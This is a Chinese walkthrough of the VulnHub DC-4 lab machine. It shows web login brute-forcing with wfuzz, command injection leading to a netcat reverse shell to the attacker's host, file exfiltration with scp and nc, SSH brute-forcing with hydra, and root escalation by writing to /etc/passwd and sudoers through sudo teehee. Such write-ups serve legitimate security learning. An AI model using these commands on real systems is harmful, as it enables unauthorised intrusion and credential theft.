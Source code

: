 # DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/2.png)

一个 web ,一个 ssh,先看看 web 有什么信息

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/3.png)

单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/4.png)

可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/6.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/7.png)

这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/8.png)

此时 kali 以收到弹回的 shell，给他改成方便交互的

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/9.png)

---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```bash
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/10.png)

当然用 nc 也可以直接传
```bash
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/11.png)

登录,并查看 mbox 内容

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/12.png)

看上去像是一份邮件,去 `/var/mail` 看看是否有信息

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/13.png)

发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```bash
su charles
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/14.png)

Charles 可以使用 sudo 权限运行 teehee。teehee 可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```bash
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/15.png)

2. 在 sudoers 里给 charles 所有权限
    ```bash
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC4/16.png)

提权成功,感谢靶机作者 @DCUA7
